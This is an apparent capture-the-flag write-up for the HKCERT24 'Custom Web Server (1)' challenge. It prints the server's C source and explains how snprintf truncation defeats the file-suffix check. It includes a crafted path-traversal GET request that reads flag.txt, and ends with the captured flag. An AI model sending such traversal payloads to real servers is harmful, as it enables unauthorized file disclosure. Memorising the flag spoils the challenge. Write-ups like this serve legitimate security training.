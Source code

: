# Custom Web Server (1) ❌

## Challenge Description
> ![image](https://github.com/user-attachments/assets/6c6d3faa-1507-44b1-ab11-abcead353e6a)


## Approach
Download thefile, unzip, and read the code.

 ```c
#include <sys/types.h>
#include <sys/socket.h>
#include <stdio.h>
#include <netinet/in.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>
#include <stdbool.h>

#define PORT 8000
#define BUFFER_SIZE 1024

typedef struct {
    char *content;
    int size;
} FileWithSize;

bool ends_with(char *text, char *suffix) {
    int text_length = strlen(text);
    int suffix_length = strlen(suffix);

    return text_length >= suffix_length && \
           strncmp(text+text_length-suffix_length, suffix, suffix_length) == 0;
}

FileWithSize *read_file(char *filename) {
    if (!ends_with(filename, ".html") && !ends_with(filename, ".png") && !ends_with(filename, ".css") && !ends_with(filename, ".js")) return NULL;

    char real_path[BUFFER_SIZE];
    snprintf(real_path, sizeof(real_path), "public/%s", filename);

    FILE *fd = fopen(real_path, "r");
    if (!fd) return NULL;

    fseek(fd, 0, SEEK_END);
    long filesize = ftell(fd);
    fseek(fd, 0, SEEK_SET);

    char *content = malloc(filesize + 1);
    if (!content) return NULL;

    fread(content, 1, filesize, fd);
    content[filesize] = '\0';

    fclose(fd);

    FileWithSize *file = malloc(sizeof(FileWithSize));
    file->content = content;
    file->size = filesize;
 
    return file;
}

void build_response(int socket_id, int status_code, char* status_description, FileWithSize *file) {
    char *response_body_fmt = 
        "HTTP/1.1 %u %s\r\n"
        "Server: mystiz-web/1.0.0\r\n"
        "Content-Type: text/html\r\n"
        "Connection: %s\r\n"
        "Content-Length: %u\r\n"
        "\r\n";
    char response_body[BUFFER_SIZE];

    sprintf(response_body,
            response_body_fmt,
            status_code,
            status_description,
            status_code == 200 ? "keep-alive" : "close",
            file->size);
    write(socket_id, response_body, strlen(response_body));
    write(socket_id, file->content, file->size);
    free(file->content);
    free(file);
    return;
}

void handle_client(int socket_id) {
    char buffer[BUFFER_SIZE];
    char requested_filename[BUFFER_SIZE];

    while (1) {
        memset(buffer, 0, sizeof(buffer));
        memset(requested_filename, 0, sizeof(requested_filename));

        if (read(socket_id, buffer, BUFFER_SIZE) == 0) return;

        if (sscanf(buffer, "GET /%s", requested_filename) != 1)
            return build_response(socket_id, 500, "Internal Server Error", read_file("500.html"));

        FileWithSize *file = read_file(requested_filename);
        if (!file)
            return build_response(socket_id, 404, "Not Found", read_file("404.html"));

        build_response(socket_id, 200, "OK", file);
    }
}

int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    struct sockaddr_in server_address;
    struct sockaddr_in client_address;

    int socket_id = socket(AF_INET, SOCK_STREAM, 0);
    server_address.sin_family = AF_INET;
    server_address.sin_addr.s_addr = htonl(INADDR_ANY);
    server_address.sin_port = htons(PORT);

    if (bind(socket_id, (struct sockaddr*)&server_address, sizeof(server_address)) == -1) exit(1);
    if (listen(socket_id, 5) < 0) exit(1);

    while (1) {
        int client_address_len;
        int new_socket_id = accept(socket_id, (struct sockaddr *)&client_address, (socklen_t*)&client_address_len);
        if (new_socket_id < 0) exit(1);
        int pid = fork();
        if (pid == 0) {
            handle_client(new_socket_id);
            close(new_socket_id);
        }
    }
}
```
> [!NOTE]  
> From the code we can analyse that the server:
> - Serves static files from a `public/` directory.
> - Only allows files with specific suffixes: `.html`, `.png`, `.css`, `.js`.

The code uses `snprintf` to concatenate `public/` with the requested file name:
   ```c
   char real_path[BUFFER_SIZE];
   snprintf(real_path, sizeof(real_path), "public/%s", filename);
   ```
The server uses a hardcoded buffer size of 1024 bytes. Specifically, this snippet is key:
   ```c
   #define BUFFER_SIZE 1024
   ```

If the `filename` string is **long enough**, the `real_path` buffer overflows, causing truncation. This allows bypassing the suffix restriction.

To trick the server into treating `flag.txt` as a valid file, a request is crafted with an excessively long path. The final `.js` suffix gets **truncated** due to the buffer overflow:

   ```plaintext
   GET    /././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././../../../../../../../../././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././flag.txt.js HTTP/1.1
   ```
> [!NOTE]
> Here’s what happens:
> 1. The long path fills up the `real_path` buffer.
> 2. The `.js` suffix overflows and gets truncated.
> 3. The server reads `public/flag.txt` and serves the flag!

Here’s the full HTTP request used to exploit:

![image](https://github.com/user-attachments/assets/69075c72-96cd-4964-a7a7-f7d3778d554e)

Sending the request gives us the flag!

![image](https://github.com/user-attachments/assets/17911b93-e248-4284-a1a5-091c3f6b39f1)

##Flag
hkcert24{bu1ld1n9_4_w3bs3rv3r_t0_s3rv3_5t4t1c_w3bp4935_1s_n0ntr1vial}
